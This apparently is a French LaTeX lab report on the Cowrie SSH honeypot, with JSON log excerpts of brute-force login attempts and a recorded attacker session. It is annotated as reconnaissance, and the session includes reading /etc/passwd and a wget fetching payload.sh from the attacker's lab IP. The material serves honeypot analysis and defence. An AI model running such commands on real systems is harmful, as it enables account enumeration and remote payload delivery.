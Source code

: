 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
Cowrie enregistre automatiquement toutes les tentatives d'authentification échouées.
Les logs JSON fournissent une visibilité complète sur les attaquants :

\begin{lstlisting}[language=bash, caption={Extrait de log Cowrie : tentatives de brute force SSH}]
{"eventid":"cowrie.login.failed","username":"root",
 "password":"123456","src_ip":"192.168.100.150",
 "timestamp":"2026-03-14T22:15:03.412Z"}
{"eventid":"cowrie.login.failed","username":"admin",
 "password":"admin","src_ip":"192.168.100.150",
 "timestamp":"2026-03-14T22:15:04.891Z"}
{"eventid":"cowrie.login.success","username":"root",
 "password":"test123","src_ip":"192.168.100.150",
 "timestamp":"2026-03-14T22:15:06.234Z"}
\end{lstlisting}

\subsection{Analyse d'une Session d'Attaque Complète}

Une fois authentifié (avec le mot de passe faible \texttt{test123} configuré dans Cowrie),
l'attaquant a interagi avec le pseudo-shell. Cowrie a enregistré chaque commande :

\begin{lstlisting}[language=bash, caption={Session d'attaque complète enregistrée par Cowrie}]
{"eventid":"cowrie.command.input",
 "input":"uname -a",
 "timestamp":"2026-03-14T22:15:10.001Z"}
{"eventid":"cowrie.command.input",
 "input":"id",
 "timestamp":"2026-03-14T22:15:11.543Z"}
{"eventid":"cowrie.command.input",
 "input":"cat /etc/passwd",
 "timestamp":"2026-03-14T22:15:14.221Z"}
{"eventid":"cowrie.command.input",
 "input":"wget http://192.168.100.150/payload.sh",
 "timestamp":"2026-03-14T22:15:19.887Z"}
{"eventid":"cowrie.session.file_download",
 "url":"http://192.168.100.150/payload.sh",
 "outfile":"/tmp/payload.sh",
 "timestamp":"2026-03-14T22:15:21.003Z"}
\end{lstlisting}

\textbf{Analyse de la séquence :}
\begin{enumerate}
    \item \texttt{uname -a} : reconnaissance du système d'exploitation.
    \item \texttt{id} : vérification des privilèges obtenus.
    \item \texttt{cat /etc/passwd} : énumération des comptes utilisateurs.
    \item \texttt{wget} : tentative de téléchargement d'un payload depuis l'attaquant.
\end{enumerate}
\end{document}
